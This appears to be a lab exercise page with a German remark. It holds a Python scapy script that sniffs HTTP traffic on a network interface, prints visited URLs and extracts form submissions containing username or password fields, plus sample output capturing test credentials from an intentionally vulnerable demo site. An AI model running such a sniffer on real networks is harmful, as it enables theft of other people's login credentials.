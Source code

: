
```python
from logging import log
import scapy.all as scapy
from scapy.layers import http

def sniff(interface):
    scapy.sniff(iface=interface, store=False, prn=process_sniffed_packet)

def get_url(packet):
    return (packet[http.HTTPRequest].Host + packet[http.HTTPRequest].Path).decode()

def get_login_info(packet):
    load = packet[scapy.Raw].load.decode()
    keywords = ["uname","name","username","pass","password"]
    for keyword in keywords:
        if keyword in load:
            return load
    # http://testphp.vulnweb.com/login.php
    # http://testhtml5.vulnweb.com

def process_sniffed_packet(packet):
    if packet.haslayer(http.HTTPRequest):
        #packet.show()
        print("[+] URL >> "+get_url(packet))

        if packet[http.HTTPRequest].Content_Type==b'application/x-www-form-urlencoded' and packet.haslayer(scapy.Raw):
            login_info = get_login_info(packet)
            if login_info:
                print("\n\n possible username/password >> "+login_info+"\n\n")

print("Network Sniffer")
sniff("eth0")

```

`packet[http.HTTPRequest].Content_Type==b'application/x-www-form-urlencoded'` hinzugefügt um Zugriff auf nicht Text Daten in `scapy.Raw`  zu verhindern (führt zu einem decode Fehler)

```
[+] URL >> testhtml5.vulnweb.com/ajax/popular?offset=0
[+] URL >> testhtml5.vulnweb.com/static/app/partials/itemsList.html
[+] URL >> testhtml5.vulnweb.com/login


 possible username/password >> username=admin&password=sdfsaf


[+] URL >> testhtml5.vulnweb.com/
[+] URL >> netdna.bootstrapcdn.com/twitter-bootstrap/2.3.1/css/bootstrap-combined.min.css
[+] URL >> fonts.googleapis.com/css?family=Lora:400,700,400italic,700italic
[+] URL >> testhtml5.vulnweb.com/static/css/style.css
[+] URL >> code.jquery.com/jquery-1.9.1.min.js
[+] URL >> netdna.bootstrapcdn.com/twitter-bootstrap/2.3.1/js/bootstrap.min.js
[+] URL >> testhtml5.vulnweb.com/static/app/app.js
[+] URL >> testhtml5.vulnweb.com/static/app/libs/sessvars.js
[+] URL >> testhtml5.vulnweb.com/static/app/post.js
[+] URL >> testhtml5.vulnweb.com/static/app/controllers/controllers.js
[+] URL >> testhtml5.vulnweb.com/static/app/services/itemsService.js
[+] URL >> bxss.s3.amazonaws.com/ad.js
```

